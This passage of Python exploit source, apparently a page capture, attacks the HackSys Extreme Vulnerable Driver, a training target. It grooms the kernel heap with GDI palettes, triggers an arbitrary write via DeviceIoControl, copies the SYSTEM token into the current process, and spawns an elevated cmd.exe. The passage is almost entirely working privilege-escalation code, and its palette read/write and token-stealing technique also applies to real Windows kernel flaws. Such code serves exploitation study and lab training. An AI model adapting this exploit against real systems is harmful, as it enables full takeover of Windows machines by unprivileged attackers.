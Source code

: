 ```
            break

    return current_pEPROCESS

def trigger_arbitrary_overwrite():
    """ Main Logic """
    driver_handle = kernel32.CreateFileA("\\.\HackSysExtremeVulnerableDriver", 0xC0000000,0, None, 0x3, 0, None)
    if not driver_handle or driver_handle == -1:
        print "[!] Driver handle not found : Error " + str(ctypes.GetLastError())
        sys.exit()

    global hManager, hWorker

    # Calculate pointer to HMValidateHandle
    findHMValidateHandle()

    #Massaging heap for Manager Palette
    debug_print ("[&gt;] Setting up Manager Palette:")
    debug_print ("t[+] Allocating and Freeing Windows")
    dup_address = alloc_free_windows()
    setup_manager_palette()
    hManager_pFirstColor_offset = dup_address + 0x78
    debug_print ("t[+] Manager palette pFirstColor offset: 0x%X" % hManager_pFirstColor_offset)

    #Massaging heap for Worker Palette
    debug_print ("[&gt;] Setting up Worker Palette:")
    debug_print ("t[+] Allocating and Freeing Windows")
    dup_address = alloc_free_windows()
    setup_worker_palette()
    hWorker_pFirstColor_offset = dup_address + 0x78
    debug_print ("t[+] Worker palette pFirstColor offset: 0x%X" % hWorker_pFirstColor_offset)

    # Using WWW to overwrite Manager pFirstColor value with address of Worker pFirstColor
    write_where = hManager_pFirstColor_offset
    write_what_ptr = c_void_p(hWorker_pFirstColor_offset)    
    evil_input = struct.pack("&lt;Q", addressof(write_what_ptr)) +     struct.pack("&lt;Q", write_where)
    evil_input_ptr = id(evil_input) + 32
    evil_size  = len(evil_input)
    debug_print ("n[+] Triggering W-W-W to overwrite Manager pFirstColor value with Worker pFirstColor")
    dwReturn = c_ulong()
    kernel32.DeviceIoControl(driver_handle, 0x22200B, evil_input_ptr, evil_size, None, 0,byref(dwReturn), None)    

    # Get SYSTEM EPROCESS
    system_EPROCESS = get_PsISP_kernel_address()
    debug_print ("n[+] SYSTEM EPROCESS: 0x%X" % system_EPROCESS)

    # Get current EPROCESS
    current_EPROCESS = get_current_eprocess(system_EPROCESS)
    debug_print ("[+] current EPROCESS: 0x%X" % current_EPROCESS)

    system_token = c_ulonglong()
    debug_print ("rn[+] Reading System TOKEN")
    read_virtual(system_EPROCESS + token_offset, byref(system_token), sizeof(system_token));
    debug_print ("[+] Writing System TOKEN")
    write_virtual(current_EPROCESS + token_offset, byref(system_token), sizeof(system_token));

    if shell.IsUserAnAdmin():
        os.system('cmd.exe')
    else:
```
